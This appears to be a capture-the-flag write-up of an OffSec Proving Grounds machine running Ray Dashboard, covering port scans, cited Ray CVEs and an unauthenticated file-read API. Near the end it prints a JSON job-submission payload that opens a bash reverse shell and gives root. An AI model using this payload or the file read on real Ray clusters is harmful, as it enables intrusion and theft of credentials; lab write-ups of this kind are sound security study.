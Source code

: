 ```yaml
---
title: CTF-200-06 (OffSec. Proving Grounds)
description: Write-up of CTF-200-06 Machine
date: 2023-12-29 09:00:00 -3000
categories: [proving grounds]
tags: [ray dashboard, CVE, insecure input validation, linux]
author: trace

---
```




## Enumeration:

```bash
nmap -sC -sV <IP>
```

```bash
rustscan -a 
```

![rustscanresult.png](../../assets/writeups/2023-12-27-CTF-200-06/rustscanresult.png)

quite a few ports open but it was just mainly port `22`, `9000`, & `52365`

#### Port 52365:

This had some `/log` file directory which had the same log as which i found later on in ray dashboard logs

#### Port 9000:

Port `9000` was running [Ray Dashboard](https://docs.ray.io/en/latest/ray-observability/getting-started.html) which is a web-based dashboard for monitoring and debugging Ray applications. The visual representation of the system state, allows users to track the performance of applications and troubleshoot issues.

![port9000.png](../../assets/writeups/2023-12-27-CTF-200-06/port9000.png)

then i visited `Logs` section of the dashboard in order to find something which can come in handy,

```xml
agent-424238335.err
agent-424238335.out
dashboard.err
dashboard.log
dashboard_agent.log
debug_state.txt
debug_state_gcs.txt
events/
gcs_server.err
gcs_server.out
job-driver-Bishop_Fox_00001.log
log_monitor.err
log_monitor.log
monitor.err
monitor.log
monitor.out
old/
python-core-driver-01000000ffffffffffffffffffffffffffffffffffffffffffffffff_1425.log
python-core-driver-02000000ffffffffffffffffffffffffffffffffffffffffffffffff_1713.log
python-core-driver-03000000ffffffffffffffffffffffffffffffffffffffffffffffff_1645.log
python-core-worker-63da3aaab00807e34fa09389d49d535de3a4dd09388cd9a002c59572_1728.log
python-core-worker-e39c5ba7728abce11978e4c5f262510de64e0146e07583dbe6173bd4_3913.log
python-core-worker-f003cfbbb1a3f94fbb9eecbe2f4f2ec41a4896c9587eae431f792661_1730.log
raylet.err
raylet.out
runtime_env_agent.log
runtime_env_setup-02000000.log
worker-63da3aaab00807e34fa09389d49d535de3a4dd09388cd9a002c59572-ffffffff-1728.err
worker-63da3aaab00807e34fa09389d49d535de3a4dd09388cd9a002c59572-ffffffff-1728.out
worker-e39c5ba7728abce11978e4c5f262510de64e0146e07583dbe6173bd4-02000000-3913.err
worker-e39c5ba7728abce11978e4c5f262510de64e0146e07583dbe6173bd4-02000000-3913.out
worker-f003cfbbb1a3f94fbb9eecbe2f4f2ec41a4896c9587eae431f792661-ffffffff-1730.err
worker-f003cfbbb1a3f94fbb9eecbe2f4f2ec41a4896c9587eae431f792661-ffffffff-1730.out
```

had tons of log files but i didn't find anything worth mentioning, so next I proceeded with looking for Potential Vulnerability in the Web Application running itself And I found it had [CVE-2023-48023,](https://nvd.nist.gov/vuln/detail/CVE-2023-48023) a remote code execution (RCE) vulnerability tied to missing authentication for a critical function; [CVE-2023-48022](https://www.cve.org/CVERecord?id=CVE-2023-48022), a server-side request forgery vulnerability in the Ray Dashboard API that enables RCE; and [CVE-2023-6021,](https://nvd.nist.gov/vuln/detail/CVE-2023-6021) an insecure input validation error that also enables a remote attacker to execute malicious code on an affected system.

## Getting Root:

An insecure input validation is present in the Ray Dashboard’s `/api/v0/logs/file` API endpoint. The endpoint accepts arbitrary filesystem paths and does not require authentication, only connectivity to the Ray Dashboard port (8265 by default). The vulnerability was exploited to obtain the SSH private key used by Ray to authenticate to all other nodes in the associated cluster.


To trigger the vulnerability, a valid `node_id` value was required. A `node_id` could be obtained in the Cluster section of the Ray Dashboard web app in the ID column of the Node List section. In the figure below, the ID of the head node


![nodefound.png](../../assets/writeups/2023-12-27-CTF-200-06/nodefound.png)

I obtained the node ID calling the Dashboard API `/nodes?view=summary`, there's an easy way to do it do is just look at the dashboard and you will find it

Once you have a valid `node_id` value included in the request, the Ray Dashboard API returns the content of any file accessible to the account the web application server is running as. For example, in response to a `curl` command, the API returns the content of the server’s `/etc/passwd` file, as you can see:

![etcpasswd.png](../../assets/writeups/2023-12-27-CTF-200-06/etcpasswd.png)

So, As stated in the blog post i mentioned above the researcher said that in a **typical AWS cloud install, one can find a bootstrap config file in the home directory of the ray user. This bootstrap config file contains various details such as the cluster settings, including the full filesystem path where an SSH key is stored.**

but that's the not the case here unfortunately i was able to retrieve the user private ssh key since every user was set to nologin :shrug: idk why?! maybe there's some other way where they need people to get in via webshell or something but anyways



I later on via this method got the `/usr/bin/python3 /opt/server-ml.py`

```python
import ray
import time
import os
import fcntl
import socket
import struct


def get_ip_addr(interface: str) -> str:
    # took it from https://gist.github.com/EONRaider/3b7a8ca433538dc52b09099c0ea92745
    """
    Uses the Linux SIOCGIFADDR ioctl to find the IP address associated
    with a network interface, given the name of that interface, e.g.
    "eth0". Only works on GNU/Linux distributions.
    Source: https://bit.ly/3dROGBN
    Returns:
        The IP address in quad-dotted notation of four decimal integers.
    """
    try:
        sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
        packed_iface = struct.pack('256s', interface.encode('utf_8'))
        packed_addr = fcntl.ioctl(sock.fileno(), 0x8915, packed_iface)[20:24]
        return socket.inet_ntoa(packed_addr)
    except Exception as e:
        print(f"An exception occurred while trying to get the ip addr: {e}")
        pass


curr_ip_addr = get_ip_addr("ens160")
#print(curr_ip_addr)

if curr_ip_addr.startswith("172."):
    # wait till it gets the correct ip addr
    while not curr_ip_addr.startswith("192."):
        curr_ip_addr = get_ip_addr("ens160")

time.sleep(3)

ray.init(dashboard_host="0.0.0.0", include_dashboard=True, dashboard_port=9000)

# ray dashboard is tied to the script life-cycle:)
while True:
    time.sleep(1)
```




lol, i didn't find it that interesting so i just moved ahead with a different approach and try to get the root shell


[Protect AI published a MetaSploit Framework module that exploits this technique along with their disclosure](https://github.com/protectai/ai-exploits/blob/main/ray/msfmodules/ray_job_rce.py), although they did not call out the lack of authentication as a vulnerability. Researcher Bryce Bearchell independently submitted two reports to Protect AI’s huntr platform (https://huntr.com/bounties/787a07c0-5535-469f-8c53-3efa4e5717c7/ and https://huntr.com/bounties/b507a6a0-c61a-4508-9101-fceb572b0385/) during the same time period that Bishop Fox reported the issue directly to Anyscale. However, the reports were closed based on Anyscale’s position that the behavior is by design, and therefore should not be perceived as a vulnerability.


The Ray Jobs Python SDK can also be used to execute code remotely without authentication. The arbitrary command execution is obtained by crafting a malicious Python script using the Ray API to submit a task and then calling this malicious script in the entrypoint parameter of the `JobSubmissionClient` object.
Also, the Ray Client API – exposed on TCP port `10001` by default – was vulnerable to unauthenticated remote code execution via a very similar technique but sadly we don't have it so i dropped that idea and went ahead with the different approach,


And this was pretty direct method of exploitation discovered is to submit arbitrary operating system commands for execution via the job submission API using a raw HTTP request or the Ray Jobs Python SDK. These do not require authentication in the default configuration, and are accessible remotely to any system with access to the Ray Dashboard (TCP port 8265 by default).


So now we craft a JSON job submission to execute the Linux shell command to get a reverse shell using `bash -i >& /dev/tcp/your_ip/your_port 0>&1`, sending the malicious JSON file to the jobs API, and then retrieving the output of the executed command like this:

![reverseshelljson.png](../../assets/writeups/2023-12-27-CTF-200-06/reverseshelljson.png)

> cat_passwd.json:

```json
{
  "entrypoint": "bash -c 'bash -i >& /dev/tcp/your_ip/your_port 0>&1'",
  "submission_id": "wtf",
  "runtime_env": {},
  "metadata": {},
  "entrypoint_num_cpus": 1,
  "entrypoint_num_gpus": 0,
  "entrypoint_resources": {}
}
```

and then we get a callback and we manage to pop a shell as root user

![gotrootshell.png](../../assets/writeups/2023-12-27-CTF-200-06/gotrootshell.png)


